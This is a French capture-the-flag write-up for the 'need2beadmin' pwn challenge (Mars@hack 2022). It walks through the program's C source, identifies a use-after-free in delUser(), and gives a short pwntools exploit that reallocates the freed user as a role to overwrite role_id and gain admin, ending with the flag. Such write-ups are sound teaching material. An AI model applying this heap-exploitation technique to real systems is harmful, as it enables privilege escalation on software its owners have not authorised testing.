



# Writeup for the challenge  **_`need2beadmin`_**  from Mars@hack 2022

- ## Challenge Information:

| - | - |
| ----------- | ----------- |
| Name: | **`need2beadmin`** |
| Category: | **`pwn`** |


- ## Découverte du challenge

En lançant le programme, on se retrouve avec une interface contenant:

- une liste de commandes

- une ligne qui contient notre nom d'utilisateur et notre rôle



En rentrant un chiffre correspondant à la commande, une fonction sera lancée.


- ## Analyse du code source

### Affichage du flag
Le flag s'affiche lorsque l'on passe par la fonction `switchAdmin()`, cette fonction est associé à la commande 
**`[7] Passer en mode Rouge`**.

2 vérifications sont faites pour obtenir le flag:
```c
if (!isAdmin(currentUser) | strcmp(currentUser->name, "Reine rouge") != 0) {
    printf("\nSeule la 'Reine rouge' peut accéder à cette interface.\n\n");
    
    //fflush(stdout);
    return;
  }
``` 
L'utilisateur actuel doit être `admin` et le nom de l'utilisateur doit être `Reine Rouge`, il faut donc être l'utilisateur numéro 1 pour avoir accès à cette interface.
```c
users[0] = newUser("Reine rouge", 1, 1); //struct User *newUser(char *name, unsigned int roleId, unsigned short privilege)
```

On se rend vite compte qu'on ne pourra pas récupérer cet utilisateur avec une utilisation normal du programme pour 2 raisons:
1. Il n'est pas possible de choisir le rôle `admin` en créant un utilisateur à moins d'être déjà `admin`
```c 
if (isAdmin(currentUser)) {
    user->role_id = roleId;
  } else if (strcmp(nameRoleNext, "Admin") != 0) {
    user->role_id = roleId;
  } else {
    printf("Tu dois être admin pour définir ce rôle.\n");
    //fflush(stdout);
    exit(-9);
}
```
2. Il n'est pas possible de créer un utilisateur avec le même nom qu'un utilisateur existant, impossible alors d'obtenir un 2ème utilisateur **`Reine rouge`**
```c
if (userExist(name)) {
    printf("L'utilisateur existe déjà.\n");
    //fflush(stdout);
    exit(-7);
}
```

-----

### Changement de rôle

Une autre fonction semble cependant pouvoir être utilisée: `switchUser()`
```c
void switchUser(char *userName) {
  if (!isAdmin(currentUser)) {
    printf("Seul les utilisateurs ayant le rôle 'Admin' peuvent accéder à cette fonctionnalité.\n");
    //fflush(stdout);
    return;
  }

  if (!userExist(userName)) {
    printf("L'utilisateur n'existe pas.\n");
    //fflush(stdout);
    return;
  }

  currentUser=getUser(userName);
}
```
---

Elle permet de choisir n'importe quel utilisateur à condition d'avoir le rôle `admin`, gardons cela en tête et continuons notre analyse.

### Detection de la vulnérabilité

2 structures sont définies:  `Role` et `User` 
```c
struct Role {
  unsigned int id;
  char name[8];
  char alias[8];
};

struct User {
  char name[16];
  unsigned int role_id;
};
```
Leur taille en mémoire est identique: 16 `char` et un `unsigned int` soit 16 * 1 + 1 * 4 = 20 octet par structure

Ce genre de structures, ainsi qu'un programme offrant une liste de choix, se retrouvent souvent utilisés dans les challenges consistant à manipuler la heap avec un **`use-after-free`** ou un **`double free`**.

Pour confirmer cette théorie, on regarde les fonctions associées aux commandes "Supprimer un utilisateur" et "Supprimer un role" pour voir comment `free()` est utilisé.

```c 
void delUser() {
  char name[memberSize(struct User, name)];

  memcpy(name, currentUser->name, sizeof(name));

  if (numberOfUsers <= MIN_USERS) {
    printf("Besoin d'un minimum de %i utilisateurs.\n", MIN_USERS);
    //fflush(stdout);
    exit(-5);
  }

  free(currentUser);
  users[numberOfUsers-1] = NULL;
  printf("Utilisateur '%s' supprimé\n\n", name);
  //fflush(stdout);

  numberOfUsers--;
}
```

Bingo, dans les fonction `delUser()` on peut voir que le pointeur `currentUser` n'est pas remit à **`NULL`** après le `free()`;

Le **`use-after-free`** se confirme: Si l'on arrive à avoir à attribuer a même adresse mémoire à l'utilisateur actuel puis à un rôle on pourra réécrire la variable `role_id` de la structure `User` et lui donner la valeur 1 afin d'obtenir un profil administrateur.

- ## Analyse du code source

Notre exploit sera le suivant:

```python
from pwn import *

#n'ayant
challenge = remote("nc game1.marshack.fr", 31003)

# Création d'un utilisateur
challenge.sendline(b"3")

# Nom de l'utilisateur
challenge.sendline(b"test_user")
# Rôle de l'utilisateur
challenge.sendline(b"2")

# Destruction de l'utilisateur
challenge.sendline(b"5")

# Création du rôle
challenge.sendline(b"4")

# Remplissage des 8 1ers bytes
challenge.sendline(b"A"*8)
# Overwrite de l'id de l'utilisateur
challenge.sendline(b"A"*4 + b"\x01\x00\x00\x00")

challenge.interactive()
```

Pour représenter ce qu'il se passe (en prenant une adresse memoire théorique de `0x00000000`):

1. Création de l'utilisateur à l'adresse `0x00000000`
 ```mermaid
graph LR
F((currentUser)) --> A[0x00000000]
A --> C[0x00000000: name] --> E[''test_user'']
A --> D[0x00000010: id] --> B[2]
```
2. `free(currentUser)`: l'adresse `0x00000000` redevient disponible pour un malloc
3. Création du rôle sur l'adresse `0x00000000`: Les valeurs de currentUser sont overwrite
 ```mermaid
graph LR
F((rôle)) --> A[0x00000000]
A --> C[0x00000000: id] --> E[4]
A --> Z[0x00000004: name] --> G[''AAAAAAAA'']
A --> D[0x0000000C: alias] --> B[''AAAA\x01\x00\x00\x00'']
```
4. Valeurs de `currentUser` après la création du rôle
 ```mermaid
graph LR
F((currentUser)) --> A[0x00000000]
A --> C[0x00000000: name] --> E[''\x04\x00\x00\x00AAAAAAAAAAAA'']
A --> D[0x00000010: id] --> B[1]
```
---

On se retrouve alors avec un utilisateur sans nom mais possédant le rôle `admin`



Il suffit ensuite de changer d'utilisateur pour récupérer le profil **`Reine rouge`**



Flag : **`fl@g{NeMeDebranchezPas!OuVousMourrerezTous}`**
